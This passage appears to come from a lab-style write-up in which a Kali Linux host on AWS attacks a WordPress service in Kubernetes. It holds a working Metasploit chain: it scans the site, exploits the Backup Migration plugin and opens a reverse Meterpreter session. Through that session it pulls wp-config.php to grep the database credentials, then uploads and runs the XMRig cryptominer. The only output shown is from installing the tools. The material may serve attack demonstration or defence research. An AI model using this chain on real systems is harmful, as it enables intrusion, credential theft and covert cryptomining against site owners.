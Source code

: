![Metasploit](https://user-images.githubusercontent.com/63872951/187396388-1c15dd6e-95a0-438a-ada5-71e49ff17f4e.jpg){:width="500"}
_Metasploit logo_

```bash
# shellcheck disable=SC2087
ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "kali@${AWS_EC2_KALI_LINUX_PUBLIC_IP}" << EOF2
curl -Ls https://github.com/xmrig/xmrig/releases/download/v6.21.3/xmrig-6.21.3-linux-static-x64.tar.gz | tar -xvzf - --strip-components=1 --wildcards "*/xmrig"

sudo snap install metasploit-framework
msfdb init

cat << EOF | msfconsole --quiet --resource -
use auxiliary/scanner/http/wordpress_scanner
set rhost ${K8S_WORDPRESS_SERVICE}
run

use exploit/multi/http/wp_backup_migration_php_filter
set rhost ${K8S_WORDPRESS_SERVICE}
set lhost ${AWS_EC2_KALI_LINUX_PUBLIC_IP}
set lport 443
run

sessions --interact 1 --meterpreter-command ps --meterpreter-command sysinfo \
  --meterpreter-command "download /bitnami/wordpress/wp-config.php" \
  --meterpreter-command "upload xmrig /tmp/xmrig" \
  --meterpreter-command "execute -i -H -f /usr/bin/sh -a '-c \"chmod a+x /tmp/xmrig ; /tmp/xmrig --version\"'"

exit -y
EOF

grep DB_ wp-config.php
EOF2
```

```console
┌──(kali㉿kali)-[~]
└─$ curl -Ls https://github.com/xmrig/xmrig/releases/download/v6.21.3/xmrig-6.21.3-linux-static-x64.tar.gz | tar -xvzf - --strip-components=1 --wildcards "*/xmrig"

xmrig-6.21.3/xmrig

┌──(kali㉿kali)-[~]
└─$ sudo snap install metasploit-framework
metasploit-framework v6.4.4-dev from Jitendra Patro (jitpatro) installed
WARNING: There is 1 new warning. See 'snap warnings'.

┌──(kali㉿kali)-[~]
└─$ msfdb init
Running the 'init' command for the database:
Creating database at /home/kali/snap/metasploit-framework/common/.msf4/db
Creating db socket file at /home/kali/snap/metasploit-framework/common
Starting database at /home/kali/snap/metasploit-framework/common/.msf4/db...server starting
success
Creating database users
Writing client authentication configuration file /home/kali/snap/metasploit-framework/common/.msf4/db/pg_hba.conf
Stopping database at /home/kali/snap/metasploit-framework/common/.msf4/db
Starting database at /home/kali/snap/metasploit-framework/common/.msf4/db...server starting
success
Creating initial database schema
Database initialization successful
```